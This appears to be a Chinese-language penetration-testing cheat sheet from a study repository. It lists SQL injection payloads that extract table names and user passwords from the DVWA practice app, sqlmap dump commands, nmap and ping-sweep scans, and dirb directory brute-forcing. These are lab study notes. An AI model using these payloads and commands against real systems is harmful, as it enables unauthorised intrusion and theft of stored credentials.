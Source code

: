 ## SQL Injection 常用語法

https://feifei.tw/sql-injection/

基本注入：
```
    ' or '1' = '1
```
UNION 注入：
1. 先判斷可控列數
```
    ' or 1 = 1 order by 1 #
    1' union select 1,2#
```
2. 取得DB name 
```
    1' union select 1, database()#
```
3. 取得table name 
```
    1' union select 1,group_concat(table_name) from information_schema.tables   where table_schema = 'dvwa' #
```
4. 取得column name 
```
    1' or 1 = 1 union select 1,group_concat(column_name) from information_schema.columns  where table_name = 'users' #
```
5. 取得資料內容詳細
```
    1' or 1 = 1 union select group_concat(user_id),group_concat(password) from users # 
```

## SQLMAP 常用語法

```
    # 更新SQLmap
    --update

    # 只需確認是否可注入，並只顯示 payload 技術與後端技術
    sqlmap -u "URL"

    # 獲取資料庫
    sqlmap -u "URL" --dbs

    # 獲取資料庫所有 table
    sqlmap -u "URL" -D <database> --tables

    # 獲取指定 table 之欄位
    sqlmap -u "URL" -D <database> -T <table> --columns

    # 獲取指定 table 之指定欄位資料
    sqlmap -u "URL" -D <database> -T <table> -C field1,field2 --dump
```
完整連結:

https://hackmd.io/@bttea/sqlmap_common_parameters

## NMAP

| 指令                    | 描述                                      |
| -----------------------| ----------------------------------------- |
| `nmap <目標>`          | 執行基本的端口掃描，指定單個目標。        |
| `nmap -sV <目標>`      | 對目標進行服務版本檢測。                  |
| `nmap -O <目標>`       | 嘗試識別目標操作系統。                    |
| `nmap -A <目標>`       | 執行全面的掃描，包括版本檢測和操作系統識別。 |
| `nmap -p <port> <目標>`| 指定掃描的port範圍。                      |
| `nmap -T <速度> <目標>` | 設置掃描的速度。                          |
| `nmap -oN <文件名> <目標>`| 將掃描結果保存到指定文件中。              |
| `nmap -sS <目標>`      | 使用 TCP SYN 掃描技術進行掃描。           |
| `nmap -sU <目標>`      | 掃描目標的 UDP 端口。                     |
| `nmap -v <目標>`       | 顯示詳細輸出，提供更多信息。              |
| `nmap -h`              | 顯示幫助信息和可用選項。                  |

```
    nmap 192.168.166.6
```
得知目標有開哪些服務

![alt text](image.png)

```
    nmap -sP 192.168.166.1-254
```

## nslookup

得知目標範圍內有哪些IP正在啟動

![alt text](image-1.png)

```
nslookup <網域名稱>
nslookup -type=<記錄類型> <網域名稱>
nslookup <網域名稱> <指定的 DNS 伺服器>
nslookup -type=<記錄類型> <網域名稱> <指定的 DNS 伺服器>
```

操作範例：
* nslookup yahoo.com（查詢 yahoo.com 的 DNS 記錄，預設為 A 記錄）
* nslookup -type=mx yahoo.com（查詢 yahoo.com 的 MX 記錄）
* nslookup yahoo.com 8.8.8.8（指定從 DNS 伺服器 8.8.8.8 來查詢 yahoo.com）
* nslookup -type=mx yahoo.com 8.8.8.8（指定從 DNS 伺服器 8.8.8.8 來查詢 yahoo.com 的 MX 記錄）

# dirb 


```
    dirb http://127.0.0.1/dvwa
```
![alt text](image.png)

* 指定特定查詢，使用-X表示，指定.php類別的資料
```
 dirb http://127.0.0.1/dvwa -X.php
```

## 其他常用命令

| 指令                     | 描述                                         |
| ------------------------ | -------------------------------------------- |
| `dirb <URL> <字典文件>` | 使用指定的字典文件進行目錄掃描。              |
| `dirb -o <輸出文件>`     | 將掃描解果輸出。                 |
| `dirb -r`                | 遞迴掃描，秀出目錄及子目錄。           |
| `dirb -S`                | 設置 HTTP 標頭文件。                           |
| `dirb -t <process 數>`       | 设置process，加快掃描速度。                   |
| `dirb -N`                | 不顯示沒有發現的頁面。                       |
| `dirb -p <代理>`         | 使用指定的代理。                             |

https://ithelp.ithome.com.tw/articles/10275958


預設字典擋位置：/usr/share/dirb/wordlists/以下

/usr/share/dirb/wordlists/vulns/apache.txt

## 其他
Linux passwd位置：/etc/passwd
